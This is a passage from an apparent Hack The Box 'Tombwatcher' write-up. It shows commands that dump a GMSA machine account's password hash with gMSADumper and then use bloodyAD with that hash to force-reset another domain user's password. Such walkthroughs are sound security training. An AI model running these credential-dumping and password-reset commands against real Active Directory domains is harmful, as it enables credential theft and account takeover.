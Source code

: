 Now the members of the Infrastructure group can read GMSA password of the Ansible_dev$ machine account.

We used GMSADumper to get the hash of ansible_dev$ machine account.

[https://github.com/micahvandeusen/gMSADumper](https://github.com/micahvandeusen/gMSADumper)

```bash
python3 /opt/gMSADumper/gMSADumper.py -u alfred -p "<...>" -l 10.129.232.198 -d tombwatcher.htb
```

![image.png](/assets/images/Tombwatcher_HTB/image%2011.png)

We have aes256hmac and rc4_ntlm for the ansible_dev$ account.

Confirming that we have received the correct rc4_ntlm hash.

![image.png](/assets/images/Tombwatcher_HTB/image%2012.png)

### Ansible_dev$ → Sam

![image.png](/assets/images/Tombwatcher_HTB/image%2013.png)

Now we can see that Ansible_dev$ has privileges to force set password of sam account, this can also be done by BloodyAD.

```bash
bloodyAD --host "10.10.11.72" -d "tombwatcher.htb" -u "ansible_dev$" -p :<ansible account hash> set password "sam" "aashwin29!"
```

![image.png](/assets/images/Tombwatcher_HTB/image%2014.png)
